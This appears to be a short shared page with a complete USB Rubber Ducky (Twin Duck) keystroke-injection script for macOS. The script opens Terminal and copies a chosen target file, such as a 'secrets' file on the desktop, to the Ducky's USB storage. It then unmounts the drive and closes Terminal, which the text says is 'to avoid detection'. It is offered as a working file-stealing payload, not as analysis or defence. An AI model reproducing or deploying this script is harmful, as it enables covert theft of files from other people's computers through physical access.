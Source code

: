 When you're a duck you can just grab OSX by any file you want.

Requires the Twin Duck firmware.

This code targets a known location to copy to the Duck, and gracefully exits while unmounting the disk to avoid detection. Adjust the timing as needed for the files extracted, and this assumes your Ducky drive is named SAD.

Useful since OSX tends to put things in the same places. This just grabs a specific file and dips.



    
    REM OSX FILEGRABBER FOR TWIN DUCK
    REM STAY SAD - SADMIN FOR NULL BYTE 2017
    REM You should replace ~/Desktop/TARGET/secrets.txt with the file path for your target file
    DELAY 2000
    GUI SPACE
    DELAY 500
    STRING terminal
    DELAY 500
    ENTER
    DELAY 1000
    STRING cp -av ~/Desktop/TARGET/secrets.txt /Volumes/SAD/
    DELAY 200
    ENTER
    DELAY 1000
    STRING diskutil unmount /Volumes/SAD
    DELAY 500
    ENTER
    DELAY 4000
    STRING exit
    DELAY 200
    ENTER
    DELAY 2000
    GUI q
    ENTER